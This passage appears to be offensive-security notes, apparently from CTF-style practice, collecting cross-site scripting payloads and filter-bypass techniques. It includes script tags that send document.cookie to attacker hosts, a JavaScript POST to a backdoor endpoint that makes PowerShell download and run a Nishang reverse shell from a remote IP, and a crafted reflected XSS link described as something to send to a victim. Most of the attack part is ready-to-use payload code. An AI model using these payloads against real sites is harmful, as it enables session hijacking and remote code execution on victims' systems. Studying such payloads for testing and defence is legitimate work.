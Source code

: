 			<sCriPt>alert(String.fromCharCode(108,97,108,97))</scRipT>

			<><>

			<script>new Image().src="http://localhost/cookie.php?c="+btoa(document.cookie);</script>

	- Url encoding version

			<script>new Image().src="http://10.10.14.10/cookie.php?c="%2bdocument.cookie;</script>

## Invoke a remote shell from an ajax POST request

See Nishang : https://github.com/samratashok/nishang
See cheat sheet here : https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70

	var http = new XMLHttpRequest();
	var url = "http://localhost/admin/backdoorchecker.php";

	var params = 'cmd=dir | powershell.exe -exec bypass -C "IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.14.16/nishang-shell-5000.ps1\')"';

	http.open("POST", url);
	http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
	http.withCredentials = true;
	http.send(params);

## Bypass tags filtering
https://medium.com/@ratiros01/tryhackme-cross-site-scripting-140773f9e022  
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet  

- We need to identify the tag are being filtered by the server. Hence we should use `zaproxy` to Fuzz the `tag` that we want to bypass using a payload like this:

		http://example.com/comment=<FUZZ>

- We can use the tags wordlist in `toolbox` or go directly on the portswigger [website](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and copy the tags list into the clipboard.

### Bypassing with the `body` tag
- Once we know what tags are filtered, then we can try to identify the events that are filtered by the server. For example, if the `body` tag is not filtered, we can try to generate a payload like this:

		http://example.com/comment=<body FUZZ=1>

- Again, we can use the events wordlist in `toolbox` or we can go directly on the portswigger [website](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and copy the events list into the clipboard.

- Here is an example of fully crafted `xss` payload:

		http://example.com/comment=<body onresize=alert(document.cookie)>

- We can then send the payload to the victim and successfully triggered a `reflected XSS` attack!
- Another way is to store the payload in an `iframe` html tag.
